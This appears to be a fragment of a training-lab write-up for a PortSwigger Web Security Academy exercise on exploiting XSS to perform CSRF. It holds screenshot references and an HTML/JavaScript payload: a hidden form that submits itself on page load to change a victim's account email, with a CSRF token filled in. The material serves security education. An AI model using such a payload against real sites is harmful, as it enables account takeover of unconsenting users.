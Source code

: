 ![img](images/Exploiting%20XSS%20to%20perform%20CSRF/5.png)


We use this payload (similar to the one in https://portswigger.net/blog/exploiting-xss-in-post-requests):

```
<form name=TheForm action=https://0a8100660449e28b80a50877005400f4.web-security-academy.net/my-account/change-email method=post>
<input type=hidden name="csrf" value="wV6Kw7g2mIv6JLKjoQjmb3Nd6BhhXbmg">
<input type=hidden name="email" value="test7@test.com">
</form>
<script>
document.TheForm.submit();
</script>
```


When accessing the page, it creates a POST message:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/6.png)

